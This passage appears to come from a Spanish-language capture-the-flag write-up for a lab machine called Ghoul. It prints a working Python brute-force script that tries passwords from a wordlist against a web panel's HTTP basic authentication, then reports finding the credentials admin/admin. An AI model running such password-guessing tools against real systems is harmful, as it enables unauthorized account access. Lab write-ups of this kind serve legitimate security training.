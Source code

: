 ```python
#!/usr/bin/python
import requests
import signal
import sys
import threading
import time

def salida(sig, frame):
    print(" \n    *Saliendo\n")
    sys.exit(1)

signal.signal(signal.SIGINT, salida)


if __name__ == '__main__':

    try:
        url = sys.argv[1]
        username = sys.argv[2]
        password = sys.argv[3]
 
    except Exception as e:
        print("Use: ./webPanel-BF.py http://10.10.10.101 <username> <file password>")
        sys.exit(1)
    
    
    def bf(username, password):
        
        with open(password, 'r') as file:
            for i in file:
                s = requests.session()
                password = i.split()
                password = i.strip()
                r = s.get(url, auth=(username, password))
                print(r.status_code, f'{username, password}')
                if r.status_code == 200 :
                    print(f"\n\n-------\nPassword Succes Fully : {username, password}\n---------\n")
                    s.close()
                    sys.exit(0)
                s.close()
            
    bf(username, password)   
   
```

<font color="red"><center><a href="uploads/webPanel-BF.py">>Descargar<</a></center></font>

* Procedemos a ejecutar el script en python, y vemos la credencial admin, admin

<img src="imgs/Ghoul/Ghoul11.png">
